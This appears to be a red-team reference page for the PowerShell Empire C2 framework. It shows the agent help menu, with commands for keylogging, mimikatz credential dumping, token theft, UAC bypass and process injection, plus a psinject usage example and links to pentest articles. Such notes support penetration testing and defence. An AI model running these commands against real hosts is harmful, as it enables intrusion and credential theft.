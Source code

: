 # Interactive Shell

## 01 - Help Menu

```
(Empire: agents) > interact WindowsWS01
(Empire: WindowsWS01) > help

┌Help Options────┬─────────────────────────────────────┬───────────────────────────────┐
│ Name           │ Description                         │ Usage                         │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ display        │ Display an agent property           │ display <property_name>       │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ download       │ Tasks an the specified agent to     │ download <file_name>          │
│                │ download a file.                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ help           │ Display the help menu for the       │ help                          │
│                │ current menu                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ history        │ Display last number of task results │ history [<number_tasks>]      │
│                │ received.                           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ info           │ Display agent info.                 │ info                          │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ killdate       │ Set an agent's killdate             │ killdate <kill_date>          │
│                │ (01/01/2020)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ proxy          │ Proxy management menu for           │ proxy                         │
│                │ configuring agent proxies           │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_command │ "Execute a function in the          │ shell_command <script_cmd>    │
│                │ currently imported PowerShell       │                               │
│                │ script."                            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ script_import  │ Uploads a PowerShell script to the  │ script_import                 │
│                │ server and runs it in memory on the │ <local_script_location>       │
│                │ agent. Use '-p' for a file          │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shell          │ Tasks an the specified agent to     │ shell <shell_cmd>             │
│                │ execute a shell command.            │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sleep          │ Tasks an the specified agent to     │ sleep <delay> <jitter>        │
│                │ update delay (s) and jitter (0.0 -  │                               │
│                │ 1.0)                                │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ update_comms   │ Update the listener for an agent.   │ update_comms <listener_name>  │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ upload         │ Tasks an the specified agent to     │ upload <local_file_directory> │
│                │ upload a file. Use '-p' for a file  │                               │
│                │ selection dialog.                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ view           │ View specific task and result       │ view <task_id>                │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc            │ Launch a VNC server on the agent    │ vnc                           │
│                │ and spawn a VNC client              │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ vnc_client     │ Launch a VNC client to a remote     │ vnc_client <address> <port>   │
│                │ server                              │ <password>                    │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ workinghours   │ Set an agent's working hours        │ workinghours <working_hours>  │
│                │ (9:00-17:00)                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ whoami         │ Tasks an agent to run the shell     │ whoami                        │
│                │ command 'whoami'                    │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ ps             │ Tasks an agent to run the shell     │ ps                            │
│                │ command 'ps'                        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sc             │ Tasks the agent to run module       │ sc                            │
│                │ powershell/collection/screenshot.   │                               │
│                │ Default parameters include: Ratio:  │                               │
│                │ 80                                  │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ keylog         │ Tasks the agent to run module       │ keylog                        │
│                │ powershell/collection/keylogger.    │                               │
│                │ Default parameters include: Sleep:  │                               │
│                │ 1                                   │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ sherlock       │ Tasks the agent to run module       │ sherlock                      │
│                │ powershell/privesc/sherlock.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ mimikatz       │ Tasks the agent to run module power │ mimikatz                      │
│                │ shell/credentials/mimikatz/logonpas │                               │
│                │ swords.                             │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ psinject       │ Tasks the agent to run module       │ psinject <Listener> <ProcId>  │
│                │ powershell/management/psinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ revtoself      │ Tasks the agent to run module       │ revtoself                     │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ RevToSelf: True                     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ shinject       │ Tasks the agent to run module       │ shinject <Listener> <ProcId>  │
│                │ powershell/management/shinject.     │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ spawn          │ Tasks the agent to run module       │ spawn <Listener>              │
│                │ powershell/management/spawn.        │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ steal_token    │ Tasks the agent to run module       │ steal_token <ProcessID>       │
│                │ powershell/credentials/tokens.      │                               │
│                │ Default parameters include:         │                               │
│                │ ImpersonateUser: True               │                               │
├────────────────┼─────────────────────────────────────┼───────────────────────────────┤
│ bypassuac      │ Tasks the agent to run module power │ bypassuac <Listener>          │
│                │ shell/privesc/bypassuac_eventvwr.   │                               │
└────────────────┴─────────────────────────────────────┴───────────────────────────────┘

(Empire: WindowsWS01) >
```

## 02 - Usage

### 2.1 - Process Manipulation

`(Empire: WinWS01Admin) > psinject <listener> <pid>`

```
(Empire: WinWS01Admin) > psinject http_80 460
[*] Tasked admin to run Task 3
[+] New agent F38APL75 checked in
[*] Sending agent (stage 2) to F38APL75 at 10.0.2.4
(Empire: WinWS01Admin) > interact F38APL75
```

## References

* [HackMag Powershell Empire Modules](https://hackmag.com/security/powershell-empire/)

• [Empire For Pentester Active Directory Enumeration](https://www.hackingarticles.in/empire-for-pentester-active-directory-enumeration/)

• [Powershell Empire For Pentester Mimikatz Module](https://www.hackingarticles.in/powershell-empire-for-pentester-mimikatz-module/)

• [OSX Exploitation with Powershell Empire](https://www.hackingarticles.in/osx-exploitation-with-powershell-empire/)

• [Hacking with Empire Powershell Post Exploitation Agent](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)

• [Data Exfiltration Using Powershell Empire/](https://www.hackingarticles.in/data-exfiltration-using-powershell-empire/)

• [Part 2 Intro to Threat Hunting Understanding the Attacker Mindset with Powershell Empire and the Mandiant Attack Lifecycle](https://holdmybeersecurity.com/2020/01/23/part-2-intro-to-threat-hunting-understanding-the-attacker-mindset-with-powershell-empire-and-the-mandiant-attack-lifecycle/)

• [Command and Control with Powershell Empire part 1](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt1)

• [Command and Control with Powershell Empire part 2](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt2)

• [Command and Control with Powershell Empire part 3](https://www.snaplabs.io/insights/command-and-control-with-powershell-empire-pt3)

• [Lateral Movement Methods and Good Practices](https://www.snaplabs.io/insights/lateral-movement-methods-and-good-practices)

* [Empire Module Library](https://www.infosecmatter.com/empire-module-library/)